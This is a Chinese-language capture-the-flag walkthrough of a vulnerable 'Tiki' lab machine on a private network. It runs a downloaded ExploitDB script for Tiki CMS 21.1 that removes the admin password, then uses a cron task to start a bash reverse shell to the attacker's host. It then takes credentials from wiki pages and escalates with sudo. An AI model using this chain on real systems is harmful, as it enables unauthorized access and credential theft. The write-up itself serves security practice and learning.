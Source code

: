 # Tiki

- victim
  - 192.168.159.129
- local
  - 192.168.159.6

---

## 扫描结果分析

简单扫描看起来是Windows，但是完整扫完基本上能确定是Linux了，测试下主要的80端口上的Web服务

## Web服务分析

根据robots.txt，进入`/tiki/`，跳转到

```
http://192.168.159.129/tiki/tiki-index.php
```

gobuster也扫一下，所有30x跳转都回到主页，看看README

获取到版本号

```
tiki cms
Version 21.1
```

EDB唯一的一个结果

```
https://www.exploit-db.com/exploits/48927
```

### EDB EXP利用

```bash
proxychains4 wget https://www.exploit-db.com/raw/48927 -O exp.py
chmod +x exp.py
sed -i 's/\r$//' exp.py
# 删除多余注释，正确化第一行注释引导向python3
./exp.py
 
./exp.py 192.168.159.129
```

```
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password 
Admin Password got removed.
Use BurpSuite to login into admin without a password
```

可以无密码登录admin了，但是按照要求说是要用BurpSuite（不填写密码无法点击登陆），成功登录

### 获取Shell

获取到管理员了，发现有定时任务，先利用其收集一些信息（保存在`sysinfo.md`），然后利用其反弹shell

指令（因为格式问题，所以只能套一层了）

```bash
/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.159.6/4444 0>&1"
```

成功获取shell，得到www-data用户

## 升级到User Shell

随便浏览了下，在`/home/silky/Note`看到Mail.txt，收集到一对密码，先考虑下密码重用

```bash
ssh silky@192.168.159.129
```

无法密码重用，那就登录到CMS看看吧（有个小BUG，不退出shell，也就是Cron任务没结束就没法继续运行Web应用）

进去后，各种浏览，找到提示

```
http://192.168.159.129/tiki/tiki-index.php?page=Silkys-Homepage
```

查看历史版本，找到提示说的CVE

```
CVE-2020-15906
```

没锤子用，这个CVE我已经用过了

重新回到Admin账号，浏览页面，看到

```
http://192.168.159.129/tiki/tiki-index.php?page=Credentials
```

收集到账号密码，扔到`accounts.md`并尝试登录

成功获取User SSH Shell

## Privilege Escalation

尝试LinEnum

发现我们是Sudoer，直接`sudo -i`输入密码完事了

flag.txt

```
flag:88d8120f434c3b4221937a8cd0668588
```


